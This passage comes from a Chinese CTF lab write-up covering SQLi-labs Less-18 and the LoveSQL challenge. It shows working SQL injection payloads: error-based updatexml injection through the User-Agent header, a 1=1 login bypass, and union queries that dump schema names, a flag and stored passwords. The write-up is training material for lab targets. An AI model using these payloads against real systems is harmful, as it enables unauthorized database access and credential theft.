 #### Less18：(UA 头注入)
测试闭合一直没测试出来

用之前拿到的账号密码测试，出现回显是 UA 头，怀疑是 UA 头注入

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732259352675-12809c24-137b-424f-a58b-e734398a9bb6.png)

抓包在 UA 头后面加个单引号，报错了，看来这就是注入点

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732259499980-a0c75c80-161a-44cd-8867-999731bf6cba.png)

测试闭合，是两个双引号闭合

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732259689878-0fd57c00-91db-4ed6-a2b4-ec0b5c95b47d.png)

在 UA 头里注入

```sql
'and updatexml(1,concat(1,database()),2) and'
'and updatexml(1,concat(1,(select group_concat(schema_name) from information_schema.schemata)),2) and'
'and updatexml(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema='ctftraining')),2) and'
'and updatexml(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_name='flag')),2) and'
'and updatexml(1,concat(1,(select group_concat(flag) from ctftraining.flag)),2) and'
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732261348530-7eccd00a-3d23-49bb-9bbf-98ec8f0f4c9d.png)





## [极客大挑战 2019]LoveSQL
有登录框

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732272145692-f338b707-5c49-42cd-928e-1984268c02f3.png)

```sql
1' or 1=1#
# 回显成功，单引号闭合
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732272403344-6bd58aea-9ee9-4d74-94e0-4c1835e3b9c3.png)

```sql
-1' union select 1,2,group_concat(database())#
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='geek'#
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#
-1' union select 1,2,group_concat(password) from l0ve1ysq1#
```

结果
